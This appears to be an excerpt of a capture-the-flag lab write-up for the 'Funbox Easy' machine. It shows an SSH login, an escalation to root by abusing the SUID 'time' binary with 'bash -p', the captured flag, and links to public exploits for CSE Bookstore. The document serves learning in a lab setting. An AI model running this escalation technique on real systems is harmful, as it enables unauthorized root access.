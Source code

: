 ```
┌──(kali㉿kali)-[~/Desktop/src/offsec/vpn_profiles]
└─$ ssh tony@funboxeasy
The authenticity of host 'funboxeasy (192.168.184.111)' can't be established.
ED25519 key fingerprint is SHA256:sMY2EwBNywi3V/cmpdMCtvcC6NM31k0H9CTRlsxALfY.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'funboxeasy' (ED25519) to the list of known hosts.
tony@funboxeasy's password: 
Welcome to Ubuntu 20.04 LTS (GNU/Linux 5.4.0-42-generic x86_64)

        (... welcome banner hidden for brevity ...)

tony@funbox3:~$
```

## Privilege Escalation

18) I check for binaries with the SUID bit and find that among others, the `time` binary has SUID.

```
tony@funbox3:/$ ls -la /usr/bin | grep 'rws'
 
        (... output hidden for brevity ...)

-rwsr-xr-x 1 root root 14720 Apr 21  2017 /usr/bin/time
```

GTFOBins tells us we can abuse this: https://gtfobins.github.io/gtfobins/time/#suid

19) I become root by abusing the `time` binary:

```
tony@funbox3:/$ /usr/bin/time /bin/bash -p
bash-5.0# whoami
root
```

20) We find our flag where we expect to find it:

```
bash-5.0# ls -la /root | grep -e proof -e txt
-rw-------  1 root root   33 Mar  4 03:11 proof.txt
bash-5.0# cat /root/proof.txt
f5e7058e15f70b64233565b76acc66ef
```

We are done here! Note that we never actually needed to be `tony` to get root. We could have just executed `/usr/bin/time bash -p` as `www-data` (and we would've gotten root). 

> After being done I found online that "CSE Bookstore" actually has a few well-known exploits we could have abused instead of guessing the store's admin password and uploading a malicious payload. Looks like we could've fully bypassed authentication. See:
> 
> - https://www.exploit-db.com/exploits/47887
> - https://www.exploit-db.com/exploits/48960